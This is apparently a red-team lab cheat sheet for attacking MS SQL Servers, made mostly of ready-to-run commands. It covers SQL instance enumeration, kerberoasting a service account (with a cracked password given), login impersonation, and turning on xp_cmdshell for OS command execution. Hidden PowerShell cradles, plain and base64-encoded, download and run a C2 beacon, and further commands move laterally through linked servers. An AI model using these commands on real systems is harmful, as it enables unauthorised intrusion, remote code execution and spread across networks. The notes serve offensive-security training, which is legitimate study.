 # MS SQL Servers Notes

Tools:
[PowerUpSQL](https://github.com/NetSPI/PowerUpSQL) 
[SQLRecon](https://github.com/skahwah/SQLRecon) [wiki](https://github.com/skahwah/SQLRecon/wiki/)

enum
```
powershell-import C:\Tools\PowerUpSQL\PowerUpSQL.ps1
powershell Get-SQLInstanceDomain
test connection:
powershell Get-SQLConnectionTest -Instance "sql-2.dev.cyberbotic.io,1433" | fl
Gather more info:
powershell Get-SQLServerInfo -Instance "sql-2.dev.cyberbotic.io,1433"
for multiple SQL Servers:
powershell Get-SQLInstanceDomain | Get-SQLConnectionTest | ? { $_.Status -eq "Accessible" } | Get-SQLServerInfo
Using SQL Recon:
execute-assembly C:\Tools\SQLRecon\SQLRecon\bin\Release\SQLRecon.exe /enum:sqlspns
execute-assembly C:\Tools\SQLRecon\SQLRecon\bin\Release\SQLRecon.exe /auth:wintoken /host:sql-2.dev.cyberbotic.io /module:info
execute-assembly C:\Tools\SQLRecon\SQLRecon\bin\Release\SQLRecon.exe /a:wintoken /h:sql-2.dev.cyberbotic.io,1433 /m:whoami
```

find any users with access 
```
powershell Get-DomainGroup -Identity *SQL* | % { Get-DomainGroupMember -Identity $_.distinguishedname | select groupname, membername }
```

**attack sql account itself**

so if we have a ms sql server account we can try kerberoasting it then use beacons make_token with the cracked password, then run this to abuse
```
execute-assembly C:\Tools\SQLRecon\SQLRecon\bin\Release\SQLRecon.exe /a:windomain /d:dev.cyberbotic.io /u:mssql_svc /p:Cyberb0tic /h:sql-2.dev.cyberbotic.io,1433 /m:whoami
```

**with access**

querying
```
powerup:
powershell Get-SQLQuery -Instance "sql-2.dev.cyberbotic.io,1433" -Query "select @@servername"
sqlrecon:
execute-assembly C:\Tools\SQLRecon\SQLRecon\bin\Release\SQLRecon.exe /a:wintoken /h:sql-2.dev.cyberbotic.io,1433 /m:query /c:"select @@servername"
proxychains impacket:
proxychains mssqlclient.py -windows-auth DEV/bfarmer@10.10.122.25
or use proxifier with a sql gui
```

**MS SQL Impersonation**

allows the executing user to assume the permissions of another user without needing their password

queries:
```
SELECT * FROM sys.server_permissions WHERE permission_name = 'IMPERSONATE';
look up the output IDs:
SELECT name, principal_id, type_desc, is_disabled FROM sys.server_principals;
```

can use sqlrecon to join these two into one
```
execute-assembly C:\Tools\SQLRecon\SQLRecon\bin\Release\SQLRecon.exe /a:wintoken /h:sql-2.dev.cyberbotic.io,1433 /m:impersonate
```

example of using with queries
```
check user and privs:
SELECT SYSTEM_USER;
SELECT IS_SRVROLEMEMBER('sysadmin');
using the execute as to query in the context of the target:
EXECUTE AS login = 'DEV\mssql_svc'; SELECT SYSTEM_USER;
EXECUTE AS login = 'DEV\mssql_svc'; SELECT IS_SRVROLEMEMBER('sysadmin');
```

with sqlrecon to use impersonation mode
```
execute-assembly C:\Tools\SQLRecon\SQLRecon\bin\Release\SQLRecon.exe /a:wintoken /h:sql-2.dev.cyberbotic.io,1433 /m:iwhoami /i:DEV\mssql_svc
```


## MS SQL Command Execution

using Invoke-SQLOSCmd from PowerupSQL, this enables then disables xp_cmdshell
```
powershell Invoke-SQLOSCmd -Instance "sql-2.dev.cyberbotic.io,1433" -Command "whoami" -RawResults
```

query the usage of xp_cmdshell
```
SELECT value FROM sys.configurations WHERE name = 'xp_cmdshell';
to enable:
sp_configure 'Show Advanced Options', 1; RECONFIGURE;
sp_configure 'xp_cmdshell', 1; RECONFIGURE;
```

sqlrecons but using the /i to impersonate and run
```
execute-assembly C:\Tools\SQLRecon\SQLRecon\bin\Release\SQLRecon.exe /a:wintoken /h:sql-2.dev.cyberbotic.io,1433 /m:ienablexp /i:DEV\mssql_svc
execute-assembly C:\Tools\SQLRecon\SQLRecon\bin\Release\SQLRecon.exe /a:wintoken /h:sql-2.dev.cyberbotic.io,1433 /m:ixpcmd /i:DEV\mssql_svc /c:ipconfig
```

abusing to get a beacon on the sql server
steps:
1. create reverse port forward to tunnel traffic through our C2 chain
2. host smb beacon
3. download and execute beacon, with either b64 cradle or not
4. then link the new beacon

```
powershell New-NetFirewallRule -DisplayName "8080-In" -Direction Inbound -Protocol TCP -Action Allow -LocalPort 8080
rportfwd 8080 127.0.0.1 80
powershell -w hidden -c "iex (new-object net.webclient).downloadstring('http://wkstn-2:8080/b')"
or base64:
powershell -w hidden -enc aQBlAHgAIAAoAG4AZQB3AC0AbwBiAGoAZQBjAHQAIABuAGUAdAAuAHcAZQBiAGMAbABpAGUAbgB0ACkALgBkAG8AdwBuAGwAbwBhAGQAcwB0AHIAaQBuAGcAKAAnAGgAdAB0AHAAOgAvAC8AdwBrAHMAdABuAC0AMgA6ADgAMAA4ADAALwBiACcAKQA=
link sql-2.dev.cyberbotic.io TSVCPIPE-ae2b7dc0-4ebe-4975-b8a0-06e990a41337
```

## MS SQL Lateral Movement

sql servers have links which allows a db instance to access data from an external source

enumerate
```
SELECT srvname, srvproduct, rpcout FROM master..sysservers;
or:
execute-assembly C:\Tools\SQLRecon\SQLRecon\bin\Release\SQLRecon.exe /a:wintoken /h:sql-2.dev.cyberbotic.io,1433 /m:links
```

can send queries to linked source with openquery
```
SELECT * FROM OPENQUERY("sql-1.cyberbotic.io", 'select @@servername');
or sqlrecon:
execute-assembly C:\Tools\SQLRecon\SQLRecon\bin\Release\SQLRecon.exe /a:wintoken /h:sql-2.dev.cyberbotic.io,1433 /m:lquery /l:sql-1.cyberbotic.io /c:"select @@servername"
```

check xp-cmdshell:
```
execute-assembly C:\Tools\SQLRecon\SQLRecon\bin\Release\SQLRecon.exe /a:wintoken /h:sql-2.dev.cyberbotic.io,1433 /m:lquery /l:sql-1.cyberbotic.io /c:"select name,value from sys.configurations WHERE name = ''xp_cmdshell''"
```

If xp_cmdshell is disabled, you won't be able to enable it by executing sp_configure via OpenQuery.  If RPC Out is enabled on the link (which is not the default configuration), then you can enable it using the following syntax:
```
EXEC('sp_configure ''show advanced options'', 1; reconfigure;') AT [sql-1.cyberbotic.io]
EXEC('sp_configure ''xp_cmdshell'', 1; reconfigure;') AT [sql-1.cyberbotic.io]
```

query our link for more links
```
execute-assembly C:\Tools\SQLRecon\SQLRecon\bin\Release\SQLRecon.exe /a:wintoken /h:sql-2.dev.cyberbotic.io,1433 /m:llinks /l:sql-1.cyberbotic.io
or use powerupsql to keep looking recursively for them, this also shows the privs account the sql is set up with:
powershell Get-SQLServerLinkCrawl -Instance "sql-2.dev.cyberbotic.io,1433"
query this with lwhoami for sqlrecon:
execute-assembly C:\Tools\SQLRecon\SQLRecon\bin\Release\SQLRecon.exe /a:wintoken /h:sql-2.dev.cyberbotic.io,1433 /m:lwhoami /l:sql-1.cyberbotic.io
```

**get beacon on new link**

keep in mind that the new link my only be able to talk to the new sql server we already popped, so keep that in mind to set up the port forward for traffic

```
powershell New-NetFirewallRule -DisplayName "8080-In" -Direction Inbound -Protocol TCP -Action Allow -LocalPort 8080
rportfwd 8080 127.0.0.1 80

with Openquery to execute:
SELECT * FROM OPENQUERY("sql-1.cyberbotic.io", 'select @@servername; exec xp_cmdshell ''powershell -w hidden -enc <base64 powershell cradle>''')

or with AT syntax:
EXEC('xp_cmdshell ''powershell -w hidden -enc <base64 cradle>''') AT [sql-1.cyberbotic.io]

```



